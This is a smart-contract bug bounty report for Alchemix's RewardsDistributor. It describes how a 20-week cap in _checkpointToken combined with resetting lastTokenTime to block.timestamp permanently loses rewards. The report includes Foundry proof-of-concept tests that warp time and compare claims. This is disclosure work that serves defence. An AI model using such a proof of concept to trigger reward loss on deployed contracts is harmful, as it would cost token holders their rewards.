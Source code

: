 
# Minter UpdatePeriod after 20 weeks causes RewardsDistributor contract to lose claimable amount

Submitted on May 21st 2024 at 10:20:50 UTC by @copperscrewer for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31559

Report type: Smart Contract

Report severity: Low

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RewardsDistributor.sol

Impacts:
- Permanent freezing of unclaimed royalties
- Permanent freezing of unclaimed yield

## Description
## Brief/Intro
The Minter is a contract that calls UpdatedPeriod which then updates rewards to claim in tokensPerWeek in Rewards Distributor

In _checkpointToken
The hard cap of 20 weeks and the invalid updation of lastTokenTime to block.timestamp, allows direct loss of rewards proportional to amount of time elapsed from the 20 weeks mark.

## Vulnerability Details
Minter UpdatePeriod after 20 weeks causes RewardsDistributor contract to lose claimable amount. The Rewards Distributor Contract has a claim function for a token id where it distributes rewards to the holder, however the rewards are only captured till 20 weeks from last updated epoch and set to the current 
block.timestamp despite only updating 20 weeks from lastTokenTime.

This is in contrast to the 255 weeks limit in Voting escrow as the number of weeks are just 20 for the exploit to damage the protocol, and there are no associated complexities in carrying out the attack.

```solidiity
    function _checkpointToken() internal {
    .
    lastTokenTime = block.timestamp; 
    //@audit wrong as it's not calculated till block.timestamp, It should cover only till where it updated 
    .
    for (uint256 i = 0; i < 20; i++) { 
    //@audit limit 20 is fine but the former incorrectly updates lastTokenTime 
to block.timestamp
    .
    tokensPerWeek[thisWeek] += (toDistribute * (nextWeek - t)) / sinceLast;
    .
    }


```
Since the rewards are not entered correctly, the protocol permanently loses the rewards to distribute to the user.

## Impact Details
The impact is that the user will permanently lose rewards, and the exploit can be as easy as 20 weeks of negligence and no added complexity to carry out the attack.



## Proof of Concept
Copy paste the following code in Minter.t.sol and execute the following command 
`forge test --match-test testtokensPerWeekPOC* --fork-url https://eth-mainnet.alchemyapi.io/v2/[API_KEY] -vvv`

```solidity
    function testtokensPerWeekPOC() external 
    {
        console.log("Block timestamp : ", block.timestamp);
        console.log("minter active period : ", minter.activePeriod() );

        uint256 activePeriodThen = minter.activePeriod();
        hevm.warp(activePeriodThen + 20 weeks); 

        //ROUND1        
        hevm.startPrank(address(voter));

        minter.updatePeriod(); // deposits alcx to Distributor
        hevm.stopPrank();

        //We prank veALCX for POC reasons
        hevm.startPrank(address(veALCX));

        uint256 claimedAmount = distributor.claim(1, false);
        console.log("Claimed amount @ 20 weeks : ", claimedAmount);       

    }

    function testtokensPerWeekPOC18() external 
    {
        console.log("Block timestamp : ", block.timestamp);
        console.log("minter active period : ", minter.activePeriod() );

        uint256 activePeriodThen = minter.activePeriod();
        hevm.warp(activePeriodThen + 18 weeks);

        //ROUND1        
        hevm.startPrank(address(voter));

        minter.updatePeriod(); // deposits alcx to Distributor
        hevm.stopPrank();

        //We prank veALCX for POC reasons
        hevm.startPrank(address(veALCX));

        uint256 claimedAmount = distributor.claim(1, false);
        console.log("Claimed amount @ 18 weeks : ", claimedAmount);       

    }

    function testtokensPerWeekPOC10() external 
    {
        console.log("Block timestamp : ", block.timestamp);
        console.log("minter active period : ", minter.activePeriod() );

        uint256 activePeriodThen = minter.activePeriod();
        hevm.warp(activePeriodThen + 10 weeks); 

        //ROUND1        
        hevm.startPrank(address(voter));

        minter.updatePeriod(); // deposits alcx to Distributor
        hevm.stopPrank();

        //We prank veALCX for POC reasons
        hevm.startPrank(address(veALCX));

        uint256 claimedAmount = distributor.claim(1, false);
        console.log("Claimed amount @ 10 weeks : ", claimedAmount);       

    }

    function testtokensPerWeekPOC22() external 
    {
        console.log("\nBlock timestamp : ", block.timestamp);
        console.log("minter active period : ", minter.activePeriod() );

        uint256 activePeriodThen = minter.activePeriod();
        hevm.warp(activePeriodThen + 22 weeks); 

        //ROUND1        
        hevm.startPrank(address(voter));

        minter.updatePeriod(); // deposits alcx to Distributor
        hevm.stopPrank();

        //We prank veALCX for POC reasons
        hevm.startPrank(address(veALCX));

        uint256 claimedAmount = distributor.claim(1, false);
        console.log("Claimed amount @ 22 weeks : ", claimedAmount);       
        

    }

    function testtokensPerWeekPOC30() external 
    {
        console.log("\nBlock timestamp : ", block.timestamp);
        console.log("minter active period : ", minter.activePeriod() );

        uint256 activePeriodThen = minter.activePeriod();
        hevm.warp(activePeriodThen + 30 weeks); 

        //ROUND1        
        hevm.startPrank(address(voter));

        minter.updatePeriod(); // deposits alcx to Distributor
        hevm.stopPrank();

        //We prank veALCX for POC reasons
        hevm.startPrank(address(veALCX));

        uint256 claimedAmount = distributor.claim(1, false);
        console.log("Claimed amount @ 30 weeks : ", claimedAmount);  

        claimedAmount = distributor.claim(1, false);
        console.log("Claimed again : ", claimedAmount);  
    }
```